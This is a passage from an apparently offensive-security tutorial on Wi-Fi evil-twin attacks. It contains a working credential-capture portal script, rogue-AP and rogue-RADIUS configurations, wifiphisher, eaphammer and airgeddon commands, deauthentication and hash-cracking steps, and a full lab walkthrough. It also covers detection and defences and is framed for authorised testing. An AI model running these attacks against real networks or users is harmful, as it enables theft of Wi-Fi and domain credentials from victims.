Flag-by-flag: `-t nat` selects the NAT table; `-A PREROUTING` appends to the chain that rewrites packets as they arrive; `-i wlan1` matches traffic from the victim; `-p tcp --dport 80` matches web traffic; `-j DNAT --to-destination` rewrites the destination to our portal.

**The HTTPS problem — understand this clearly.** You can DNAT port 443, but you don't have the real site's TLS certificate, so the victim's browser throws a **certificate warning** and (with HSTS-preloaded sites like Google/Facebook) *refuses to proceed at all*. This is why modern captive-portal phishing does **not** try to MITM HTTPS. Instead it relies on the OS captive-portal check (which is plain HTTP or an easily-intercepted probe) to trigger the portal pop-up, and serves the phishing page over plain HTTP in that captive context. The lesson: **HTTPS + HSTS is a real defence** against the credential-relay style of this attack; the portal works by social-engineering the user on a page that *looks* like a router/Wi-Fi login, not by impersonating `https://accounts.google.com`.

### 4.4 The portal page and capture

Serve a trivial portal that logs whatever is submitted. A minimal Python capture server:

```python
# portal.py  -- lab-only credential capture demo
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse, datetime

PAGE = b"""<!doctype html><html><head><title>CorpWiFi - Sign in</title></head>
<body style="font-family:sans-serif;max-width:420px;margin:60px auto">
<h2>CorpWiFi</h2><p>Your session expired. Re-enter the Wi-Fi password to continue.</p>
<form method="POST" action="/login">
<input name="password" type="password" placeholder="Wi-Fi password" style="width:100%;padding:8px">
<button style="margin-top:10px;padding:8px 16px">Connect</button></form></body></html>"""

class H(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200); self.send_header("Content-Type","text/html")
        self.end_headers(); self.wfile.write(PAGE)
    def do_POST(self):
        n = int(self.headers.get("Content-Length", 0))
        body = self.rfile.read(n).decode()
        creds = urllib.parse.parse_qs(body)
        with open("captured.txt","a") as f:
            f.write(f"{datetime.datetime.now()} {self.client_address[0]} {creds}\n")
        print("[+] CAPTURED:", self.client_address[0], creds)
        self.send_response(200); self.send_header("Content-Type","text/html")
        self.end_headers(); self.wfile.write(b"<h3>Connecting... please wait.</h3>")

HTTPServer(("10.0.0.1", 80), H).serve_forever()
```

```bash
sudo python3 portal.py
# [+] CAPTURED: 10.0.0.42 {'password': ['Summer2026!']}
```

That is the entire attack in raw form: hostapd (be the AP) + dnsmasq (IP + DNS hijack) + iptables (redirect) + a portal (capture). Everything wifiphisher, airgeddon, and Fluxion do is a polished, automated version of exactly this. **Blue team, note the artefacts already visible:** a second BSSID for a known SSID, a burst of deauths (if you're pushing clients), a DHCP server that isn't the sanctioned one, and DNS answers that resolve every name to one host — all of which are detectable (Part 12).

---

## Part 5: The WPA-Enterprise Evil Twin — Harvesting MSCHAPv2 with hostapd-wpe

The by-hand rogue AP above harvests whatever the *user types*. Against a **WPA2/WPA3-Enterprise (802.1X/EAP)** network you can do something far more powerful: harvest the user's **Active Directory credentials automatically**, without any portal, because the client's device tries to *authenticate* to your rogue RADIUS server and in doing so leaks a crackable hash.

### 5.1 Why enterprise Wi-Fi leaks a crackable hash

Enterprise Wi-Fi replaces the shared PSK with **802.1X**: each user authenticates individually to a **RADIUS** server, usually with **PEAP-MSCHAPv2** (the overwhelmingly common config) — an outer TLS tunnel (PEAP) wrapping an inner **MSCHAPv2** challenge/response using the user's password-derived NT hash.

The fatal weakness: **if the client does not validate the RADIUS server's certificate**, it will build the PEAP tunnel to *any* server — including yours — and then perform MSCHAPv2 inside it. MSCHAPv2 is a challenge/response you can capture and crack offline (it's effectively net-NTLMv1-grade; the DES-based construction is crackable to the NT hash with a guaranteed-success `-m 5500`/crack.sh approach, and the username comes in cleartext). So a rogue enterprise AP + rogue RADIUS = a stream of `username::challenge::response` hashes from every device that tries to associate.



### 5.2 hostapd-wpe from scratch

**What it is:** `hostapd-wpe` ("Wireless Pwnage Edition") is a patched hostapd that acts as a rogue AP **and** an integrated rogue RADIUS/EAP server, logging the MSCHAPv2 exchange (and offering a downgrade to weaker EAP where possible). On Kali:

```bash
sudo apt install -y hostapd-wpe
ls /etc/hostapd-wpe/            # ships example certs + hostapd-wpe.conf
```

Minimal config `hostapd-wpe.conf` (the package ships a full example — key lines):

```ini
interface=wlan1
ssid=CorpWiFi
hw_mode=g
channel=6
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-EAP           # 802.1X / enterprise, NOT WPA-PSK
rsn_pairwise=CCMP
ieee8021x=1                    # enable 802.1X
eap_server=1                   # use the built-in EAP server (the rogue RADIUS)
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
# server certificate hostapd-wpe presents (self-signed by default):
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server-key.pem
private_key_passwd=whatever
```

Run it and watch for a bite:

```bash
sudo hostapd-wpe hostapd-wpe.conf
# ...
# wlan1: STA 3c:5a:b4:.. IEEE 802.11: associated
# mschapv2: Sun Nov ..: username: alice
# jtr NETNTLM: alice:$NETNTLM$1122334455667788$aabbcc...:
# hashcat NETNTLM: alice::::response:challenge
```

hostapd-wpe prints the captured credential in both John and hashcat formats. Crack it:

```bash
# hashcat mode 5500 = NetNTLMv1 / MSCHAPv2
hashcat -m 5500 alice.hash /usr/share/wordlists/rockyou.txt
# or, guaranteed, crack the DES to the NT hash (crack.sh style) then use the NT hash directly
```

**Red team payoff:** those are **domain credentials**. Once you crack `alice`'s password (or recover the NT hash for pass-the-hash), you've moved from "sitting in a car park" to "authenticated domain user" — feeding directly into the Active Directory attack chapters (Kerberoasting, BloodHound, lateral movement). This is why enterprise Wi-Fi hygiene (server-cert validation, ideally EAP-TLS with client certs) is a domain-security issue, not just a Wi-Fi one.

**The defence, stated precisely (Part 12 expands):** configure managed clients to **validate the RADIUS server certificate** against a specific internal CA **and pin the expected RADIUS server name**. A validating client refuses to build the PEAP tunnel to your self-signed cert, and hostapd-wpe gets nothing. Better still, move to **EAP-TLS** (mutual certificate auth, no password to phish at all).

---

## Part 6: wifiphisher From Scratch — Architecture and Install

Now the headline framework. **wifiphisher** automates the entire open-evil-twin + captive-portal + deauth workflow you built by hand in Part 4, adds a library of convincing phishing "scenarios", and drives the client-herding deauth continuously. It is the fastest way to run a credential-phishing evil twin, and it's the tool the chapter title calls out.

### 6.1 What wifiphisher is and how it's built

wifiphisher is a Python rogue-AP framework that, in one process, does the following:

1. **Puts one adapter into AP mode** and broadcasts the target SSID (the evil twin / open rogue AP).
2. **Uses a second adapter in monitor mode** to continuously **deauthenticate** clients from the real AP (association jamming), herding them to the twin. (You can run some modes with a single capable adapter, but two is the reliable setup.)
3. **Runs DHCP + DNS** internally (its own lightweight equivalent of dnsmasq) so every victim DNS query resolves to wifiphisher.
4. **Serves a phishing scenario** — a templated web page (firmware upgrade, OAuth login, router config, browser plugin update) — over the captive portal and **captures whatever is submitted**.



### 6.2 Install

wifiphisher ships in Kali repos, but the GitHub version is usually newer:

```bash
# Kali package
sudo apt install -y wifiphisher

# or latest from source
git clone https://github.com/wifiphisher/wifiphisher.git
cd wifiphisher
sudo python3 setup.py install        # pulls deps, compiles the roguehostapd helper
wifiphisher --version
```

Requirements to check first: **two wireless adapters** (one AP-capable, one monitor/injection-capable) is the reliable configuration; `iw`, `pyric`, and a working `roguehostapd` build; and you must **kill NetworkManager's grip** on the adapters or it'll retune them mid-attack:

```bash
sudo airmon-ng check kill      # stop NetworkManager/wpa_supplicant interference
iw dev                         # confirm both adapters present, e.g. wlan1 (AP), wlan2 (mon)
```

### 6.3 First run — the interactive flow

Launched with no scenario, wifiphisher is interactive:

```bash
sudo wifiphisher
```

It will:

1. Auto-select adapters (or you specify with `-aI wlan1 -jI wlan2` — AP interface and jamming interface).
2. Scan and present a **list of nearby APs**. You arrow to the target SSID and press Enter — wifiphisher now knows the ESSID/BSSID/channel to impersonate.
3. Present a **menu of phishing scenarios** (Part 7). You choose one.
4. Stand up the twin, start deauthing clients off the real AP, and show a live console: associated victims, DHCP leases, HTTP requests, and — the moment it happens — **captured credentials**, which it also writes to a log under `/tmp/`.

Common non-interactive invocations:

```bash
# Target a specific ESSID with the firmware-upgrade scenario, specifying both adapters:
sudo wifiphisher -aI wlan1 -jI wlan2 -e "CorpWiFi" -p firmware-upgrade

# Known-scenario, no deauth (rely on the victim manually joining the open twin):
sudo wifiphisher -e "GuestWiFi" -p oauth-login --nojamming

# Present the twin on a specific channel and force-hop the deauther:
sudo wifiphisher -aI wlan1 -jI wlan2 -e "CorpWiFi" -c 6 -p wifi_connect
```

| Flag | Meaning |
|---|---|
| `-aI <iface>` | Adapter to run the **A**ccess-point/rogue AP on |
| `-jI <iface>` | Adapter to run the **j**amming/deauth on (monitor mode) |
| `-e "<ESSID>"` | Target SSID to impersonate (skips the scan menu) |
| `-p <scenario>` | Phishing scenario/template to serve |
| `-c <channel>` | Channel for the rogue AP |
| `--nojamming` / `-nJ` | Don't deauth; only host the twin (quieter, needs willing victims) |
| `-kN` | Kill any interfering processes (like `airmon-ng check kill`) |
| `-qS` | Quit on first successful credential capture |
| `-lC <file>` | Log captured credentials to a file |

---

## Part 7: wifiphisher Phishing Scenarios and the Captive-Portal Flow

The evil twin gets the victim onto your network; the **scenario** is what turns that into a captured secret. wifiphisher ships several templates and supports custom ones.

### 7.1 The built-in scenarios

| Scenario (`-p`) | What the victim sees | Credential harvested |
|---|---|---|
| `firmware-upgrade` | "Your router needs a firmware update — enter the Wi-Fi (WPA/WPA2) password to apply it." | The **Wi-Fi PSK** |
| `oauth-login` | A fake OAuth / "Sign in with your account to access free Wi-Fi" page | Email + password (webmail/social) |
| `wifi_connect` / `plugin_update` | "A browser plugin / connection manager update is required" | Whatever the fake form asks |
| `network-manager-connect` | Mimics the OS's native Wi-Fi connect dialog asking for the password | The **Wi-Fi PSK** |

The `firmware-upgrade` scenario is the classic and the most effective against home/SMB targets: users broadly believe "the router wants the Wi-Fi password to update" and type the PSK. Against enterprise/webmail targets, `oauth-login` phishes the corporate email password. wifiphisher does **not** need to know or crack the PSK — the whole point is the user donates it.

### 7.2 The end-to-end captive-portal flow



The subtlety that makes this land: step "OS auto-opens captive browser". Because wifiphisher (like our by-hand dnsmasq) breaks the OS's connectivity check, **the phone or laptop itself pops a browser window showing the phishing page** — the victim doesn't have to open anything or mistype a URL. Combined with the familiar SSID, it's extremely convincing.

### 7.3 Customising a scenario

Scenarios live as templates (HTML/JS + a small `config.ini`) under wifiphisher's `phishing-pages` directory. A minimal custom scenario is a folder with:

```
my-portal/
  config.ini          # name, shown title, which template dir
  html/
    index.html        # the phishing page (form POSTs to /login)
    Payload.exe       # optional "download" the victim is prompted to run
```

Point wifiphisher at it and it serves your page in place of a built-in one. **On a real engagement,** you tailor the page to the client's actual brand (their real captive-portal styling, logo, SSID) — which dramatically increases the capture rate and is exactly what you'd document as the social-engineering vector in the report. **This is where the web-phishing skills transfer:** the page is ordinary HTML/CSS/JS, and the same care you'd put into any phishing pretext (branding, plausible copy, a believable "next step") applies.

---

## Part 8: KARMA and MANA — Answering Every Probe

The evil twin above targets **one named SSID**. KARMA and MANA take the opposite approach: **don't pick a target — impersonate everything the clients around you are already looking for.**

### 8.1 KARMA — the original

Recall from Part 2 that devices broadcast probe requests for saved networks (their PNL). **KARMA** (Dino Dai Zovi & Shane Macaulay, 2005) is beautifully simple: run an AP that **responds affirmatively to every probe request**. A device probing for `HomeNet` gets "yes, I'm `HomeNet`"; a device probing for `AirportFreeWiFi` gets "yes, I'm that too." Devices that auto-join open saved networks connect immediately, and you're now their AP.

KARMA worked devastatingly well until OS vendors hardened against it: modern iOS/Android/Windows largely **stopped broadcasting their full PNL** and **stopped auto-joining open networks by name alone**, using MAC randomisation and requiring more before auto-connect. Against a fully patched modern phone, naive KARMA mostly fails — but IoT devices, printers, older gear, and misconfigured laptops still fall for it.

### 8.2 MANA — KARMA that works again

**MANA** (Ian de Villiers & Dominic White, SensePost, 2014) is the modernised attack. Instead of blindly answering every probe, MANA:

- Builds a **per-device view** of what each client has probed for and **synthesises a plausible PNL** for it, answering with networks that specific device seems to know.
- Adds a **"loud" mode** that broadcasts responses for observed SSIDs to *all* nearby clients, so a network one device revealed can lure another.
- Integrates with the **enterprise (EAP) evil twin** so it can capture MSCHAPv2 as clients try 802.1X, and with **hostapd** so it's a drop-in rogue AP.

MANA lives as a patched hostapd (`hostapd-mana`) and is the engine inside **eaphammer** (Part 9). Key config knobs in `hostapd-mana.conf`:

```ini
interface=wlan1
ssid=Internet             # a "harmless" default SSID for the base AP
channel=6
hw_mode=g
# MANA-specific:
enable_mana=1             # turn on the KARMA/MANA probe-response engine
mana_loud=1              # loud mode: broadcast known SSIDs to all clients
mana_macacl=0           # don't restrict by MAC
```



**Blue-team relevance:** the signature of a MANA attack is an AP that answers probe responses for an implausibly large or shifting set of SSIDs, and clients associating to an SSID that shouldn't exist in that location. WIDS/WIPS and even manual monitor-mode capture (`tshark -Y wlan.fc.type_subtype==0x05` for probe responses) can surface it.

---

## Part 9: eaphammer — the Modern Enterprise Evil Twin Framework

`hostapd-wpe` (Part 5) is the classic enterprise-attack tool; **eaphammer** (Gabriel Ryan, the author of MANA-era research) is the modern, batteries-included framework that wraps hostapd-mana to run enterprise evil twins, PSK captive portals, and KARMA/MANA from one clean CLI. It's what most red teams reach for today for the enterprise MSCHAPv2 harvest.

### 9.1 Install and cert generation

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
cd eaphammer
./kali-setup                     # installs deps, builds hostapd-mana
# generate the RADIUS server certificate eaphammer will present:
./eaphammer --cert-wizard
```

The `--cert-wizard` step builds the self-signed server certificate the rogue RADIUS presents. (You can also import a look-alike cert — e.g. one with the target org's name in the CN — to be more convincing against users who *glance* at the cert but don't validate its CA.)

### 9.2 Running an enterprise (MSCHAPv2-harvest) evil twin

```bash
sudo ./eaphammer -i wlan1 \
  --channel 6 \
  --auth wpa-eap \
  --essid CorpWiFi \
  --creds
```

Flag-by-flag:

| Flag | Meaning |
|---|---|
| `-i wlan1` | AP interface |
| `--channel 6` | Channel to broadcast on (match the real AP) |
| `--auth wpa-eap` | Enterprise 802.1X evil twin (vs `owe`, `wpa-psk`, `open`) |
| `--essid CorpWiFi` | SSID to impersonate |
| `--creds` | Harvest and print credentials (MSCHAPv2 challenge/response) |

Sample capture:

```
[eaphammer] victim associated: 3c:5a:b4:..
[eaphammer] EAP identity: CORP\alice
[eaphammer] mschapv2:
   username: alice
   challenge: 1122334455667788
   response:  aabbccddeeff0011...
   jtr:     alice:$NETNTLM$1122334455667788$aabbcc...
   hashcat: alice::CORP:response:challenge::
```

Crack with hashcat mode 5500 exactly as in Part 5. eaphammer can also run a **PSK captive portal** (`--captive-portal`) for WPA2-Personal targets and **GTC downgrade** attacks to capture *cleartext* passwords from clients that permit EAP-GTC — an even worse outcome for the victim than a crackable hash.

### 9.3 Choosing between the tools

| Tool | Best for | Notes |
|---|---|---|
| by-hand hostapd+dnsmasq+iptables | Learning; bespoke portals; debugging frameworks | Maximum control, most setup |
| **wifiphisher** | Open evil twin + captive-portal PSK/webmail phishing | Great scenarios, drives deauth, single command |
| **hostapd-wpe** | Quick enterprise MSCHAPv2 harvest | Classic, ships on Kali, minimal deps |
| **eaphammer** | Modern enterprise + MANA + GTC downgrade | Most capable enterprise framework today |
| **airgeddon** | PSK-confirming evil twin (validates captured PSK against handshake), all-in-one menu | Bash orchestrator around aircrack-ng/hostapd/others |
| **Fluxion** | Menu-driven PSK captive-portal that verifies the PSK via handshake | Popular for WPA2-Personal PSK capture |

---

## Part 10: PSK-Confirming Evil Twin (airgeddon / Fluxion) — Capturing the WPA2 Password

There's one more important variant to understand: the **handshake-verified captive portal** used by `airgeddon` and `Fluxion` against **WPA2-Personal**. It solves a problem the naive open twin has — *how do you know the PSK the victim typed is correct?*

The flow:

1. Capture a **real four-way handshake** from the target first (Chapter 2 technique — airodump-ng + deauth). This gives you a way to *verify* any candidate PSK offline without the real AP.
2. Stand up an **open evil twin** with the same SSID and a captive portal asking for the Wi-Fi password.
3. Continuously **deauth** the client off the real AP so it can't get real internet — increasing pressure to "fix it" by entering the password on your portal.
4. When the victim submits a PSK, immediately **validate it against the captured handshake** (`aircrack-ng`/cowpatty check). If it matches, you show "success, reconnecting"; if not, "wrong password, try again" — so you only accept the *correct* PSK.



This is elegant because it turns the offline crack (which fails on strong PSKs) into an **online social-engineering capture** (which succeeds regardless of PSK strength, as long as the user cooperates). airgeddon's "Evil Twin AP attack with captive portal (verify password)" menu item does exactly this end-to-end.

```bash
sudo airgeddon
# menu path: select interface -> put in monitor mode ->
#   "Evil Twin attacks menu" -> "Evil Twin AP attack with captive portal"
# it walks you through: capture handshake -> launch AP + portal -> verify PSK
```

**The defence is the same PMF story:** if the real AP enforces 802.11w, step 3's deauth fails, the victim never loses connectivity, and the pressure to use your portal evaporates. WPA3-SAE (with mandatory PMF) neutralises this whole class.

---

## Part 11: Hands-On Lab — A Captive-Portal Evil Twin, End to End

A fully reproducible lab you can run **entirely on your own gear**. Target: a spare router (or a phone hotspot) you own, set to **WPA2-Personal** with a passphrase you know. Attacker: a Kali box with **two USB Wi-Fi adapters** (one AP-capable e.g. AR9271/RT5370, one injection-capable). Victim: a second phone/laptop you own that has the target SSID saved.

> Legal/scope note: everything below runs against your own SSID and your own victim device. Do not point any of it at a network or device you do not own or are not contracted to test.

### Step 0 — Prepare the attacker

```bash
sudo airmon-ng check kill                     # stop NetworkManager interfering
iw dev                                         # identify adapters: wlan1 (AP), wlan2 (inj)
sudo airmon-ng start wlan2                      # wlan2 -> wlan2mon for deauth/monitor
```

### Step 1 — Recon the target (from Chapter 2)

```bash
sudo airodump-ng wlan2mon
#  BSSID              CH  ENC   ESSID
#  AA:BB:CC:DD:EE:FF   6  WPA2  HomeLab-2G     <-- our target, channel 6
```

Note the **BSSID, channel (6), and exact ESSID**. Lock recon to the channel to see clients:

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan2mon
#  STATION            PWR   ... connected clients appear here
```

### Step 2 (optional but recommended) — Capture a real handshake for PSK verification

```bash
# in a second terminal, deauth one client to force a re-handshake:
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF -c <CLIENT_MAC> wlan2mon
# watch the airodump-ng header flash: "WPA handshake: AA:BB:CC:DD:EE:FF"
aircrack-ng handshake-01.cap        # should show "(1 handshake)"
```

This gives you the material to *verify* a submitted PSK later (the airgeddon-style confirm). Not needed for a pure credential-capture demo, but it's the professional touch.

### Step 3 — Launch the evil twin with wifiphisher

```bash
sudo wifiphisher -aI wlan1 -jI wlan2mon -e "HomeLab-2G" -c 6 -p firmware-upgrade -lC /tmp/creds.log
```

What each part does here: `-aI wlan1` runs the rogue AP on the AP-capable adapter; `-jI wlan2mon` runs continuous deauth on the monitor adapter to herd your victim; `-e "HomeLab-2G"` impersonates the exact SSID; `-c 6` matches the real channel; `-p firmware-upgrade` serves the "enter Wi-Fi password to update" page; `-lC` logs captures.

Live console you'll see:

```
Extensions feed:
  [*] Sending deauth to AA:BB:CC:DD:EE:FF ...
  DHCP Leases:
    10.0.0.42  3c:5a:b4:11:22:33  android-victim
  HTTP requests:
    GET  connectivitycheck.gstatic.com  -> intercepted
    GET  /                              -> firmware-upgrade page served
  [+] Victims:
    3c:5a:b4:11:22:33
```

### Step 4 — Trigger the victim (simulate the human)

On your victim phone: it loses the real network (deauth), roams to the open `HomeLab-2G` twin, the OS captive-portal check fires, and a browser pops with the firmware-upgrade page. Enter the Wi-Fi password as the "victim" would.

### Step 5 — Collect the credential

```
[+] Credentials captured!
    Password: SuperSecretPSK2026
cat /tmp/creds.log
# 2026-.. 10.0.0.42 password=SuperSecretPSK2026
```

### Step 6 — (Verification) Confirm the captured PSK is real

```bash
# verify the captured PSK against the handshake from Step 2:
echo "SuperSecretPSK2026" > /tmp/one.txt
aircrack-ng -w /tmp/one.txt -b AA:BB:CC:DD:EE:FF handshake-01.cap
#   KEY FOUND! [ SuperSecretPSK2026 ]     <-- confirms the victim gave the real PSK
```

That last step is how you *prove* on a report that the captured credential is the actual network key, not a typo — the same verification airgeddon automates.

### Step 7 — Tear down cleanly

```bash
# Ctrl-C wifiphisher; then restore normal networking:
sudo airmon-ng stop wlan2mon
sudo systemctl start NetworkManager
sudo iptables -t nat -F           # if you'd added manual rules
```

**What you just demonstrated:** a WPA2-Personal network with an uncrackable-in-Chapter-3 passphrase was defeated in minutes — not by cracking, but by the *user handing over the key* to a convincing twin. That's the entire thesis of this chapter.

---

## Part 12: Detection & Defense Angle

Everything above has a defence, and unlike the offline-cracking chapters the defences here are effective and deployable. This is the consolidated blue-team section.

### 12.1 Kill the deauth: 802.11w / Protected Management Frames (PMF)

The evil twin's client-herding depends on **spoofed deauth/disassoc** frames, which are unauthenticated in legacy 802.11. **802.11w (PMF)** cryptographically protects management frames so a spoofed deauth is dropped.

- **PMF Optional** (`ieee80211w=1`) protects clients that support it.
- **PMF Required** (`ieee80211w=2`) mandates it — the strongest posture.
- **WPA3 mandates PMF**, which is a major reason to move to WPA3.

With PMF-required, `aireplay-ng --deauth`, wifiphisher's jamming, and airgeddon's pressure loop all fail. The attacker is reduced to being *louder* than the real AP or hoping the victim manually joins — far weaker.

**Detect deauth floods** in monitor mode:

```bash
tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x0c"      # deauth
tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x0a"      # disassoc
# a burst of these from your BSSID to many clients = deauth attack in progress
```

### 12.2 Detect the twin itself: rogue-AP / WIDS-WIPS

An evil twin is a **second BSSID advertising a known SSID**, usually with different characteristics. Detection signals:

| Signal | How to spot it |
|---|---|
| Duplicate SSID, new/unknown BSSID | WIDS baseline of authorised BSSIDs; alert on unknown BSSID for a corporate SSID |
| SSID appearing on an unexpected channel | Monitor which channels your SSIDs *should* be on |
| Security downgrade (WPA2-Ent SSID now open) | Client/EMM policy + WIDS: your corp SSID must never appear as open |
| Beacon anomalies (different capabilities/vendor OUI, odd beacon interval) | Kismet / commercial WIPS fingerprinting |
| Sudden deauth burst then re-associations elsewhere | Correlate deauth flood + client roam to unknown BSSID |
| DHCP/DNS from a non-sanctioned server | Wired-side DHCP snooping; rogue DHCP detection |

Tools: **Kismet** (open-source WIDS — passively catalogues APs/clients and flags rogues and deauth floods), commercial **WIPS** (Cisco, Aruba, Meraki air-marshal features that can even auto-contain rogues), and simple periodic `airodump-ng` sweeps for known SSIDs on unknown BSSIDs.



### 12.3 Defeat the enterprise twin: server-cert validation + EAP-TLS

The MSCHAPv2 harvest (Parts 5, 9) works **only because the client doesn't validate the RADIUS server certificate.** The fixes:

- **Configure managed clients to validate the server certificate** against a specific internal CA **and pin the expected RADIUS server name(s)** (the "trusted server names" / "server certificate" settings in the Wi-Fi profile). A validating client refuses the PEAP tunnel to a rogue self-signed cert → no MSCHAPv2 leaks. Push this via GPO/MDM; never leave "validate certificate" unchecked or let users click through cert prompts.
- **Move to EAP-TLS** (mutual certificate authentication). There is **no password to phish** — the client authenticates with a certificate and only trusts a server presenting the right cert. This is the gold standard for enterprise Wi-Fi.
- **Disable weak inner methods** (no EAP-GTC that sends cleartext to a rogue; no MSCHAPv2 without server validation).

### 12.4 Defeat KARMA/MANA and captive-portal phishing (client-side)

- **Disable auto-join for open networks** and remove stale open-network profiles from devices (shrinks the PNL the attacker can impersonate).
- **MAC address randomisation** (default on modern iOS/Android) reduces per-device targeting.
- **Never enter the Wi-Fi/AD password into a web page.** Legitimate Wi-Fi never asks for the WPA2 password in a browser "firmware upgrade" page — user training on this single fact defeats the `firmware-upgrade` scenario.
- **HTTPS everywhere + HSTS preloading** means the portal can't transparently MITM real sites (Part 4.3) — the attack is reduced to obvious fake pages.
- **Corporate: use WPA3 / OWE for guest, enforce PMF, and deploy WIPS.** OWE ("Enhanced Open") even encrypts open guest networks, removing the passive-sniffing payoff of an open twin.

### 12.5 Quick defensive posture summary

| Attack | Primary defence |
|---|---|
| Deauth-driven roam | 802.11w PMF required / WPA3 |
| Open evil twin + portal (PSK) | User training; WPA3; WIPS rogue detection |
| PSK-confirm twin (airgeddon/Fluxion) | PMF (kills the deauth pressure); WPA3 |
| Enterprise MSCHAPv2 harvest | Server-cert validation + name pinning; EAP-TLS |
| KARMA/MANA | Disable open auto-join; MAC randomisation; shrink PNL |
| HTTPS credential relay | HSTS preload; HTTPS everywhere |

---

## Part 13: Final Revision / Summary

- The evil twin abandons key-cracking and attacks **the client's trust in an AP**: two APs with the same SSID + compatible security look like one network to a roaming client, and nothing binds an SSID to specific hardware.
- Clients are herded onto the twin by **being louder** and by **spoofed deauth**; the twin then serves DHCP+DNS that resolve everything to a **captive portal** which phishes a secret. Modern OS **captive-portal detection auto-opens the phishing page** for you.
- Built by hand, the stack is **hostapd** (be the AP) + **dnsmasq** (IP + DNS hijack) + **iptables** (redirect) + a **portal** (capture). Every framework automates exactly this.
- **wifiphisher** is the headline open-twin + captive-portal + deauth framework, with ready scenarios (`firmware-upgrade`, `oauth-login`) that phish the Wi-Fi PSK or webmail creds — no PSK cracking needed.
- Against **WPA2/WPA3-Enterprise**, the rogue AP + rogue RADIUS (`hostapd-wpe`, `eaphammer`) harvests **MSCHAPv2 net-NTLM** hashes → crack to **domain credentials**. This works only when the client fails to validate the RADIUS server cert.
- **KARMA/MANA** impersonate networks from clients' Preferred Network Lists; MANA (in `eaphammer`) revives the attack against hardened OSes.
- **airgeddon/Fluxion** run a **PSK-confirming portal**: capture a handshake first, then only accept the correct PSK from the victim — turning a failed offline crack into a successful social-engineering capture.
- Defences that actually work: **802.11w/PMF** (kills deauth), **WPA3-SAE** (kills the roam + confirm), **RADIUS server-cert validation + name pinning / EAP-TLS** (kills the enterprise harvest), **WIDS/WIPS + Kismet** (detects the twin and the deauth flood), and **user training + HTTPS/HSTS** (kills the portal).

---

## Part 14: Cheat Sheet / Quick Reference

**By-hand rogue AP**

```bash
sudo apt install -y hostapd dnsmasq
sudo systemctl stop hostapd dnsmasq; sudo systemctl unmask hostapd
iw list | grep -A10 "Supported interface modes"     # confirm AP mode
sudo hostapd hostapd-open.conf                        # start the AP
sudo ip addr add 10.0.0.1/24 dev wlan1
sudo dnsmasq -C dnsmasq-rogue.conf -d                 # DHCP + DNS hijack
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to 10.0.0.1:80
sudo python3 portal.py                                 # capture page
```

Key `dnsmasq` captive line: `address=/#/10.0.0.1` (resolve every domain to us).

**wifiphisher**

```bash
sudo airmon-ng check kill
sudo wifiphisher -aI wlan1 -jI wlan2 -e "SSID" -c 6 -p firmware-upgrade -lC /tmp/creds.log
# scenarios: firmware-upgrade | oauth-login | wifi_connect | plugin_update
# --nojamming (no deauth) | -qS (quit on first cred) | -kN (kill interferers)
```

**Enterprise (MSCHAPv2 harvest)**

```bash
sudo hostapd-wpe hostapd-wpe.conf                      # classic
# or:
sudo ./eaphammer -i wlan1 --channel 6 --auth wpa-eap --essid CorpWiFi --creds
hashcat -m 5500 captured.hash rockyou.txt              # crack net-NTLM/MSCHAPv2
```

**MANA / KARMA**

```bash
# hostapd-mana: enable_mana=1, mana_loud=1
sudo ./eaphammer -i wlan1 --essid Internet --mana        # KARMA/MANA-style
```

**PSK-confirming twin**

```bash
sudo airgeddon      # Evil Twin menu -> "captive portal (verify password)"
```

**Detection (blue team)**

```bash
tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x0c"    # deauth flood
tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x05"    # probe responses (MANA)
sudo kismet -c wlan0mon                                 # WIDS: rogue APs, deauth, twins
sudo airodump-ng wlan0mon                               # known SSID on unknown BSSID?
```

**The fixes:** PMF required (`ieee80211w=2`) / WPA3; RADIUS server-cert validation + name pinning / EAP-TLS; disable open auto-join; never type Wi-Fi/AD password into a web page.

---

## Part 15: Common Pitfalls

- **Using one adapter for AP + deauth.** Broadcasting the twin and injecting deauth at once needs two radios in practice; trying to do both on one card leads to flaky beacons and missed deauths. Use a dedicated AP adapter and a dedicated monitor/injection adapter.
- **NetworkManager retuning your card mid-attack.** Always `airmon-ng check kill` first; otherwise a background scan retunes your AP adapter and the twin drops.
- **Adapter can't do AP mode.** Many onboard cards and even some USB dongles lack AP support (`iw list` shows no `AP` under supported modes). AR9271, RT5370, RTL8812AU are safe bets.
- **Wrong channel.** A twin on a different channel than the real AP is far less convincing and harder to roam to; match the target's channel (`-c`).
- **Expecting to MITM HTTPS.** You don't have the real certs — HSTS sites refuse. The portal works via the OS captive check and a *fake* page, not by impersonating `https://` sites. Don't waste time SSL-stripping preloaded domains.
- **Enterprise twin captures nothing.** If clients validate the RADIUS cert (as they should), no MSCHAPv2 leaks — that's the defence working, not a broken tool. Confirm the target actually uses PEAP-MSCHAPv2 without validation before expecting hashes.
- **Deauth does nothing.** The target enforces 802.11w/PMF (or is WPA3). Your herding fails; pivot to being louder or to a scenario the victim joins manually.
- **Forgetting the PSK-verify step on reports.** A captured "password" from a portal is unproven until you validate it against a real handshake (Part 11 Step 6). Always verify before claiming impact.
- **Running out of scope.** Impersonating an SSID or deauthing clients you don't own is illegal and can also trigger FCC interference penalties. Lab and written-scope only.
- **Testing against a modern phone and concluding KARMA is dead.** Naive KARMA is largely mitigated on patched OSes; use MANA (eaphammer) and remember IoT/older devices still fall for it.

---

## Part 16: Practice Labs & Resources

Train each skill here on your own gear or sanctioned platforms only:

- **Your own two-radio home lab (primary).** A spare router or phone hotspot on WPA2-Personal + a victim device you own is a fully legal range for Parts 4, 6–7, 10–11. Practise: by-hand hostapd/dnsmasq/iptables portal, then wifiphisher `firmware-upgrade`, then the airgeddon PSK-verify flow.
- **TryHackMe — "Wifi Hacking 101" and wireless/evil-twin rooms.** Guided practice of rogue AP and captive-portal concepts against safe targets.
